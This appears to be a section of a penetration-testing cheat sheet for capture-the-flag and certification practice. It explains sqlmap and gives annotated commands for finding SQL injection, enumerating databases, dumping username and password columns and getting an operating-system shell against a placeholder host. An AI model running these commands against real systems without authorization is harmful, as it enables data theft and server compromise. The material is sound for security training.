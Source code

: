 ```bash
```

## SQL Injection Testing

### **sqlmap** - Automated SQL Injection Detection and Exploitation

**What sqlmap does:** Comprehensive SQL injection testing tool that detects, exploits, and extracts data from SQL injection vulnerabilities across multiple database platforms.

**Why sqlmap is essential:** SQL injection is still one of the most critical web vulnerabilities. sqlmap automates complex injection techniques that would take hours to perform manually.

**When to use sqlmap:** After discovering web forms, URL parameters, or API endpoints that interact with databases. Essential for database extraction in HTB/OSCP scenarios.

```bash
# Basic SQL injection testing
sqlmap -u "http://target.com/page.php?id=1"
# Tests single GET parameter for SQL injection
# Automatic detection of injection types and database

# POST request testing
sqlmap -u "http://target.com/login.php" --data="username=admin&password=test"
# Tests POST parameters for SQL injection
# Common in login forms and search functionality

# Cookie-based injection testing
sqlmap -u "http://target.com/profile.php" --cookie="session_id=abc123; user_id=1"
# Tests cookie values for SQL injection
# Often overlooked attack vector

# HTTP header injection testing
sqlmap -u "http://target.com/" --headers="X-Forwarded-For: 1" --level=3
# Tests HTTP headers for injection
# Requires higher level for header testing

# Advanced detection techniques
sqlmap -u "http://target.com/search.php?q=test" --level=5 --risk=3
# Maximum detection level and risk
# Tests more injection points and techniques
# Higher risk of causing application disruption

# Database enumeration after successful injection
sqlmap -u "http://target.com/page.php?id=1" --dbs
# Lists all databases available
# First step in data extraction

sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables
# Lists tables in specific database
# Identifies data structure

sqlmap -u "http://target.com/page.php?id=1" -D database_name -T users --columns
# Lists columns in specific table
# Understands table structure before extraction

sqlmap -u "http://target.com/page.php?id=1" -D database_name -T users -C username,password --dump
# Extracts specific columns from table
# Focused data extraction

# Advanced exploitation techniques
sqlmap -u "http://target.com/page.php?id=1" --os-shell
# Attempts to get operating system shell
# Uses database functions to execute system commands
```